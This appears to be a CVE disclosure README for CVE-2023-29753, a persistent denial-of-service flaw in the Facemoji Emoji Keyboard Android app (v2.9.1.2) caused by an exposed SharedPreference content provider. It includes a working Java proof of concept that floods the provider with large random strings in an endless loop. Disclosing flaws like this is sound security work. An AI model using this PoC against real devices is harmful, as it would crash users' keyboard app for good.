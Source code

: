 # Denial of Service exists in Facemoji Emoji Keyboard（CVE-2023-29753）

Vendor: EKATOX APPS(https://www.facemojikeyboard.com/)

Affected product: Facemoji Emoji Keyboard(com.simejikeyboard)

Version: 2.9.1.2

Download link：https://play.google.com/store/apps/details?id=com.simejikeyboard

Description of the vulnerability for use in the CVE：An issue found in Facemoji Emoji Keyboard v.2.9.1.2 allows a local attacker to cause a denial of service via the SharedPreference files.

Additional information: The Facemoji Emoji Keyboard application allows unauthorized applications to modify the data in its SharedPreference file through the interface provided by the exposed component, which is loaded into memory for use at application startup. Once an attacker injects an excessive amount of data, it triggers an OOM error and crashes, which eventually leads to a persistent denial of service as the data is stored persistently in the SharedPreference file.

poc:

```java
  public void attack_keybord(){
        ContentResolver contentResolver = getApplicationContext().getContentResolver();
      //targetSharedPreferencesName: any sharedpreferences's name in the app
        Uri uri = Uri.parse("content://com.simejikeyboard.dprefrenceprovider/string/targetShardPreferencesName/xxx");
        while (true){
            ContentValues contentValues = new ContentValues();
            String randomString = getRandomString(10240);
            contentValues.put("key",randomString);
            contentValues.put("value",randomString);
            contentResolver.insert(uri,contentValues);
        }
    }
```